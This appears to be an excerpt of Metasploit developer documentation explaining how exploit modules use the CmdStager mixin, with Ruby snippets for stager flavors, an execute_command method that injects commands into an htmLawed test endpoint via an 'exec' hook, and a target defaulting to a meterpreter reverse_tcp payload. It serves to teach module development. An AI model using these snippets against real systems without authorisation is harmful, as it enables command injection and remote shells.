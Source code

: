 To tell `Msf::Exploit::CmdStager` what flavors you want, you can add the
```CmdStagerFlavor```

An example of setting flavors for a specific target:
```ruby
'Targets'   =>
  [
    [ 'Windows',
      {
        'Arch' => [ ARCH_X86_64, ARCH_X86 ],
        'Platform' => 'win',
        'CmdStagerFlavor' => [ 'certutil', 'vbs' ]
      }
    ]
  ]
```

Or, you can pass this info to the `execute_cmdstager` method (see Step 4 to begin).
```ruby
execute_cmdstager(flavor: :vbs)
```

You also must create a
```def execute_command(cmd, opts = {})```

method in your module. This is how you define how to execute a command on the target.  The parameter `cmd` is the command to execute.  When writing the
```execute_cmd```

method, remember that a great deal of work might already be done for you.  Here is an example of a web host that executes a command as part of a request:
```ruby
  def execute_command(cmd, _opts = {})
    populate_values if @sid.nil? || @token.nil?
    uri = datastore['URIPATH'] + '/vendor/htmlawed/htmlawed/htmLawedTest.php'

    send_request_cgi({
      'method' => 'POST',
      'uri' => normalize_uri(uri),
      'cookie' => 'sid=' + @sid,
      'ctype' => 'application/x-www-form-urlencoded',
      'encode_params' => true,
      'vars_post' => {
        'token' => @token,
        'text' => cmd,
        'hhook' => 'exec',
        'sid' => @sid
      }
    })
  end
```

Here is an example targets section from a command injection module:
```ruby
    'Targets' => [
      [
        'Unix Command',
        {
          'Platform' => 'unix',
          'Arch' => ARCH_CMD,
          'Type' => :unix_cmd,
          'DefaultOptions' => {
            'PAYLOAD' => 'cmd/unix/python/meterpreter/reverse_tcp',
            'RPORT' => 9000
          }
        }
      ],
```